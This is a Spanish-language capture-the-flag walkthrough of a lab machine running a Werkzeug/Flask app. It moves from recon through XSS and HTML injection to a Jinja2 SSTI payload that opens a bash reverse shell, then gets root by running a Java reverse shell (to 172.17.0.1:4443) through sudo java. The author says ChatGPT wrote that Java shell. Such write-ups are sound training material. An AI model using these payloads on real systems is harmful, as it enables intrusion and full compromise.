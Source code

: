 # Reconocimiento

Vemos el puerto 5000 abierto

![[Pasted image 20240521152134.png]]

Vamos a ver qué hay en ese puerto

![[Pasted image 20240521152208.png]]

Nos encontramos esta página web con unos campos para rellenar, vamos a pasarle el WhatWeb a ver qué nos dice

![[Pasted image 20240521152251.png]]

Tenemos diferentes versiones de Werkzeug Python 

Si rellenamos los campos, vemos lo siguiente

![[Pasted image 20240521152407.png]]

Vamos a pasarle Gobuster a ver si encuentra algo y únicamente nos encuentra un /console que nos pide un PIN

![[Pasted image 20240521152535.png]]

## Explotación

En el campo PinguNombre si probamos de inyectar código malicioso como por ejemplo:

```html
<script>alert('XSS')</script>
```
vemos lo siguiente:
![[Pasted image 20240521160929.png]]

Entonces esto es vulnerable a Cross-Site Scripting (XSS). Vamos a intentar otras vulnerabilidades web como HTML Injection

![[Pasted image 20240522100934.png]]
![[Pasted image 20240522100948.png]]

También es vulnerable. Vamos a probar con una vulnerabilidad de SSTI

Accedemos a esta página y nos dirigimos a la parte que dice Exploit the SSTI by calling os.popen().read(

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution

![[Pasted image 20240522101518.png]]

Introducimos este código que lo encontramos en la página de Github y vemos que también es vulnerable.

![[Pasted image 20240522101559.png]]

Ahora vamos a aprovechar el SSTI para mandarnos una reverse shell y poder acceder a la máquina

bash

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read() }}

## Intrusión

Y conseguimos acceder a la máquina

![[Pasted image 20240522102535.png]]

Ahora vamos a buscar la forma de escalar privilegios

## Escalada de privilegios

![[Pasted image 20240522102639.png]]

Vemos que podemos ejecutar Java como root, en GTFOBins no aparece nada y en la máquina no aparece ningún script en Java, entonces le pedimos a ChatGPT que nos haga una Reverse Shell en Java

```java

public class shell {  
  public static void main(String[] args) {  
      Process p;  
      try {  
          p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4443 0>&1");  
          p.waitFor();  
          p.destroy();  
      } catch (Exception e) {}  
  }  
}
```

Lo ejecutamos de la siguiente forma

```bash
sudo -u root /usr/bin/java /tmp/r.java
```

Y ya somos ROOT
![[Pasted image 20240522103440.png]]
